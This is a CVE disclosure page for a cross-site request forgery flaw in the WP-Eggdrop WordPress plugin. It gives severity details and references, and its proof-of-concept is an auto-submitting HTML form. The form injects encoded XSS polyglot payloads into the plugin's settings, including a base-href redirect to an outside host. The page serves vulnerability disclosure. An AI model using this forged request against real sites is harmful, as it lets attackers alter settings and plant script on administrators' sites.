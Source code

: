 ```yaml
---
layout: page
title: CVE-2024-2969
subtitle: WP-Eggdrop <= 0.1 - Cross-Site Request Forgery to Settings Update
---
```

## Description
The WP-Eggdrop plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 0.1. This is due to missing or incorrect nonce validation on the wpegg_updateOptions() function. This makes it possible for unauthenticated attackers to update the plugin's settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 5.4 (Medium) - CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N

## Affected Version
    <= 0.1

## PoC :
```
<html>
  <!-- eneriiiiiii -->
  <body>
    <form action="http://[ASSETS]/wp-admin/options-general.php?page=wpegg" method="POST">
      <input type="hidden" name="wpegg&#95;server" value="JavaScript&#58;&#47;&#47;&#37;0A&#47;&#42;&#63;&apos;&#47;&#42;&#92;&#92;&apos;&#47;&#42;&quot;&#47;&#42;&#92;&#92;&quot;&#47;&#42;&#96;&#47;&#42;&#92;&#92;&#96;&#47;&#42;&apos;&#41;&#47;&#42;&lt;&#33;&#45;&#45;&gt;&lt;&#47;Title&#47;&lt;&#47;Style&#47;&lt;&#47;Script&#47;&lt;&#47;textArea&#47;&lt;&#47;iFrame&#47;&lt;&#47;noScript&gt;&#92;&#92;74k&lt;K&#47;contentEditable&#47;autoFocus&#47;OnFocus&#61;&#47;&#42;&#36;&#123;&#47;&#42;&#47;&#59;&#123;&#47;&#42;&#42;&#47;&#40;confirm&#41;&#40;1331&#43;6&#41;&#125;&#47;&#47;&gt;&lt;Base&#47;Href&#61;&#47;&#47;ener1&#45;s3c&#46;github&#46;io&#47;&#92;&#92;76&#45;&#45;&gt;" />
      <input type="hidden" name="wpegg&#95;port" value="666" />
      <input type="hidden" name="wpegg&#95;password" value="JavaScript&#58;&#47;&#47;&#37;0A&#47;&#42;&#63;&apos;&#47;&#42;&#92;&#92;&apos;&#47;&#42;&quot;&#47;&#42;&#92;&#92;&quot;&#47;&#42;&#96;&#47;&#42;&#92;&#92;&#96;&#47;&#42;&apos;&#41;&#47;&#42;&lt;&#33;&#45;&#45;&gt;&lt;&#47;Title&#47;&lt;&#47;Style&#47;&lt;&#47;Script&#47;&lt;&#47;textArea&#47;&lt;&#47;iFrame&#47;&lt;&#47;noScript&gt;&#92;&#92;74k&lt;K&#47;contentEditable&#47;autoFocus&#47;OnFocus&#61;&#47;&#42;&#36;&#123;&#47;&#42;&#47;&#59;&#123;&#47;&#42;&#42;&#47;&#40;confirm&#41;&#40;1331&#43;6&#41;&#125;&#47;&#47;&gt;&lt;Base&#47;Href&#61;&#47;&#47;ener1&#45;s3c&#46;github&#46;io&#47;&#92;&#92;76&#45;&#45;&gt;" />
      <input type="hidden" name="wpegg&#95;message" value="JavaScript&#58;&#47;&#47;&#37;0A&#47;&#42;&#63;&apos;&#47;&#42;&#92;&#92;&apos;&#47;&#42;&quot;&#47;&#42;&#92;&#92;&quot;&#47;&#42;&#96;&#47;&#42;&#92;&#92;&#96;&#47;&#42;&apos;&#41;&#47;&#42;&lt;&#33;&#45;&#45;&gt;&lt;&#47;Title&#47;&lt;&#47;Style&#47;&lt;&#47;Script&#47;&lt;&#47;textArea&#47;&lt;&#47;iFrame&#47;&lt;&#47;noScript&gt;&#92;&#92;74k&lt;K&#47;contentEditable&#47;autoFocus&#47;OnFocus&#61;&#47;&#42;&#36;&#123;&#47;&#42;&#47;&#59;&#123;&#47;&#42;&#42;&#47;&#40;confirm&#41;&#40;1331&#43;6&#41;&#125;&#47;&#47;&gt;&lt;Base&#47;Href&#61;&#47;&#47;ener1&#45;s3c&#46;github&#46;io&#47;&#92;&#92;76&#45;&#45;&gt;" />
      <input type="hidden" name="wpegg&#95;submit" value="Update&#32;Options&#32;Â&#187;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://plugins.trac.wordpress.org/browser/wp-eggdrop/trunk/wp-eggdrop.php#L215
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-eggdrop/wp-eggdrop-01-cross-site-request-forgery-to-settings-update
- https://www.cve.org/CVERecord?id=CVE-2024-2969
